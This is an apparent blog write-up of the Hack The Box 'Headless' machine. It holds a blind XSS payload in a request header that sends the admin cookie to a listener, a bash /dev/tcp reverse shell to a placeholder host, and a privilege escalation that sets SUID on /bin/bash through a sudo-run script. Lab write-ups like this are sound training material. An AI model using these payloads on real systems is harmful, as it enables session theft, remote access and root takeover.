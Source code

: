 ```yaml
---
title:  HTB - Headless
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Headless]
tags: [HackTheBox, Python Werkzeug, XSS, User-Agent]
image:
  path: /assets/img/post/headless/Headless-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Headless.
---
```


## Box Info

| Name                  | Headless         | 
| :-------------------- | ---------------: |
| Release Date          | 23 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

```bash
nmap -A -Pn 10.10.11.8 -oG allPorts
```

![Image](/assets/img/post/headless/1.png)

- http://10.10.11.8:5000/

![Image](/assets/img/post/headless/2.png)

## Scan Directory

We dont found anything interesting...

![Image](/assets/img/post/headless/3.png)

### BurpSuite

Now go to /support

![Image](/assets/img/post/headless/5.png)

And we try to intercept this with Burpsuite

![Image](/assets/img/post/headless/4.png)

If I try some HTML injection returns the HTTP request content.

![Image](/assets/img/post/headless/attemp.png)

The HTTP `response` headers show it’s a `Werkzeug / Python server`

**Exploitation**

**Blind XSS on User-Agent**

Try to figerout a large time i found the XSS over header put in a `header-false: a<script>alert(1)</script>`

`<img src=x onerror=fetch('http://<IP>:<PORT>/'+document.cookie);>`

![Image](/assets/img/post/headless/6.png)


**Python Server**

`python -m http.server 8020`

![Image](/assets/img/post/headless/7.png)

![Image](/assets/img/post/headless/8.png)

After Exploit XSS at User-Agent, we get a reply back with the **admin cookie** at the python server

![Image](/assets/img/post/headless/9.png)


- http://10.10.11.8:5000/dashboard

![Image](/assets/img/post/headless/10.png)

![Image](/assets/img/post/headless/11.png)


**Reverse Shell**

![Image](/assets/img/post/headless/12.png)

```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
#Create Reverse Shell script into a file, In my case I create .sh
```

![Image](/assets/img/post/headless/13.png)

![Image](/assets/img/post/headless/14.png)

![Image](/assets/img/post/headless/15.png)

![Image](/assets/img/post/headless/16.png)

**User Flag**

## Privilege Escalation

#### Check sudo -l

![Image](/assets/img/post/headless/17.png)

Syscheck

cat /usr/bin/syscheck:

![Image](/assets/img/post/headless/18.png)


### Exploit initdb.sh

`echo "chmod u+s /bin/bash" > initdb.sh chmod +x initdb.sh`

- `chmod u+s /bin/bash`: Sets the set-user-ID (SUID) permission on `/bin/bash`, allowing users to execute the bash shell with the file owner's (typically root) privileges.
- `chmod +x initdb.sh`: This command changes the permissions of the file `initdb.sh`, making it executable (`+x`) by the file's owner, group, and others. This allows the script to be run as a program by the user.

![Image](/assets/img/post/headless/19.png)

```
sudo /usr/bin/syscheck
/bin/bash -p
```

`/bin/bash -p`: starts a bash shell with root privileges retained, due to the SUID bit making the shell run with the file owner's (root's) effective ID.

![Image](/assets/img/post/headless/20.png)

**Root Flag**